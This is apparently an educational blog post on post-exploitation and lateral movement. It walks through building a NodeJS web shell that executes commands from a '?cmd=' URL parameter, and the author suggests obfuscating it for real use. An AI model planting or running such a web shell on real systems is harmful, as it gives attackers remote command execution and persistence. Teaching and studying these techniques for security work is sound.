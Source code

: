 ```yaml
---
title: 'Life after getting root: Part I'
date: 2019-08-05 10:00:06
tags:
---
```




## l337 h4x0R 👨‍💻


When newcomers to the security field (like myself :grin:) learn a few techniques to pwn a machine, they try to learn more and more methods because they think their end goal is just to be root on a specific machine ( :wave: some CTFs). 

Don't get me wrong, the adrenaline that you get when you do that is real and maybe your friends are impressed, but don't you want to get to the next level and use your new position to sniff around even more to try and find a new target? 

### "I am domain admin, there is nothing stopping me :smiling_imp:"

Well, not quite. :wink: 

* There can be the case that you have worked for days or weeks to get control over the domain controller and because of the [forest organisation](https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/plan/using-the-organizational-domain-forest-model) that is used, you still cannot access what you wanted.
* Sometimes people are watching and trying to catch you ( :wave: threat hunters  ), so sooner or later you will lose that priviledge.

---

### Back to the basics

If you read any hacking methodology, you will remember that the stages that you will go through are:
    1. Inteligence Gathering 
    2. Threat Modelling
    3. Vulnerability Analysis
    4. Expoitation
    5. Post Exploitation

###### Note: If you want to do this professionally, the methodology will look like this:
1. **Pre-engagement Interaction**
2. Inteligence Gathering 
3. Threat Modelling
4. Vulnerability Analysis
5. Expoitation
6. Post Exploitation
7. **Reporting**
---


The first time when I read that, I thought the *Post Exploitation* step is the one that does not matter that much because it can be summarized as "get the information that you want and disappear".
###### Spoiler alert: I was terribly wrong. 😥 

## Lateral Movement

When we talk about lateral movement in respect to the methodology from above, you might need to repeat the steps from 1-4 again and again, along with other steps, such as exfiltrating the data and covering your tracks.

### Old habits never die


##### Remember
Just because you have a high privileged account, it doesn't mean that you can move freely everywhere. There may be the case that you have to escalate your privileges again, so do not get too comfy. :worried:


A summary of this idea can be:
* Find assets
* Escalate priviledge
* Move around the network
* Repeat



###### Note: It is not always the case that you can go from a low privileged account to a high privileged account, you might need to move a bit until you find that account that is your golden ticket.



![Credits: https://github.com/infosecn1nja ](https://camo.githubusercontent.com/9547d8152e3490a6e5e3da0279faab64340885be/68747470733a2f2f646f63732e6d6963726f736f66742e636f6d2f656e2d75732f616476616e6365642d7468726561742d616e616c79746963732f6d656469612f61747461636b2d6b696c6c2d636861696e2d736d616c6c2e6a7067)


### Techniques and tactics

**"This was all nice talk but show me something technical. 🙄 "**
A lot of people try to skip the introduction and go straight to the "juicy stuff" and while that might be appropriate for some, people that are just starting need to understand the motivation for learning those techniques, because at the end of the day no one will be impressed that you know SSH Hijacking or Pass the Hash, if you do not have an intuition for why you might use it.


#### Web shells
This is the most common type of lateral movement when you find a server running on HTTP/HTTPS.

We will do an example in NodeJS with no external dependencies 😲 and I will also make the code readable, for educational purposes, but in a real even, you should try to obfuscate the code as much as possible.


1. the components that we will need are the 'http', 'url' and 'child_process' modules that Node provides out of the box
```javascript
const http = require('http');
const process = require('child_process');
const url = require('url');
```
2. create the server that will execute our commands/the payload and set up the hostname IP and port
``` javascript
const http = require('http');
const process = require('child_process');
const url = require('url');

const HOSTNAME = '127.0.0.1';
const PORT = 9002;
const server = http.createServer((req, res) => {
    res.writeHead(200, { 
        "Content-Type": "text/plain",
    });
  });

server.listen(PORT, HOSTNAME, () => {
    console.log(`Server running at http://${HOSTNAME}:${PORT}/`);
  });
```
---
###### **Fun fact** for all of you Node nerds (I know you exist): We could have used the *setHeader* method  instead of the *writeHead* method, but if you find yourself that you need to send multiple headers, you could do everything in a single method (writeHead) or use multiple methods (setHeader).

``` javascript
const server = http.createServer((req, res) => {
    res.statusCode = 200;
    res.setHeader('Content-Type', 'text/plain');
    res.setHeader("Set-Cookie", "type=ninja");
  });
```

``` javascript
const server = http.createServer((req, res) => {
       res.writeHead(200, { 
        "Content-Type": "text/plain",
        "Set-Cookie": "type=ninja",
    }); 
  });
```




---

Back to our webshell.
3. we will insert all our payloads as *?cmd=evilCommand*, so to do this, we will take the url, parse it and get the query from it

``` javascript
const http = require('http');
const process = require('child_process');
const url = require('url');

const HOSTNAME = '127.0.0.1';
const PORT = 9002;
const server = http.createServer((req, res) => {
    res.writeHead(200, { 
        "Content-Type": "text/plain",
    });
    const queryData = url.parse(req.url, true).query;

    if(queryData.cmd){
        res.end(`You are so evil, trying to execute ${queryData.cmd}\n`);
    } else {
        res.end(`How about a payload?\n`);
    }

  });


server.listen(PORT, HOSTNAME, () => {
    console.log(`Server running at http://${HOSTNAME}:${PORT}/`);
  });

```
If you were to test the shell so far by going to *http://127.0.0.1:9002/?cmd=whoami*, you would see:

![Web Shell 1](/../posts_resources/Life-after-getting-root/web-shell1.png) 

1. execute the payload and send back the result of stdout
```javascript
const http = require('http');
const process = require('child_process');
const url = require('url');

const HOSTNAME = '127.0.0.1';
const PORT = 9002;
const server = http.createServer((req, res) => {
    res.writeHead(200, { 
        "Content-Type": "text/plain",
    });
    const queryData = url.parse(req.url, true).query;

    if(queryData.cmd){
        //res.end(`You are so evil, trying to execute:\n ${queryData.cmd}\n`);
        process.exec(queryData.cmd, (err, stdout, stderr) => {
            res.end(stdout);
        });
    } else {
        res.end(`How about a payload?\n`);
    }

  });


server.listen(PORT, HOSTNAME, () => {
    console.log(`Server running at http://${HOSTNAME}:${PORT}/`);
  });
```
Congrats, you have just learnt how to build a web shell. 🎉 🙌

![Web Shell 2](/../posts_resources/Life-after-getting-root/web-shell2.png)

A complex example of a web shell is the "China Chopper Web Shell", which can also be used as a persistence mechanism for an attacker. A full analysis was done by FireEye [here](https://www.fireeye.com/content/dam/fireeye-www/global/en/current-threats/pdfs/rpt-china-chopper.pdf).
Also, if you want to know more about web shells, I recommend [this resource](https://attack.mitre.org/techniques/T1100/).
This is the end of the first part folks 👋. 

In the second part, I will cover more techniques for lateral movement and we will also make a quick transition to the next big topic: Persistence. 😆
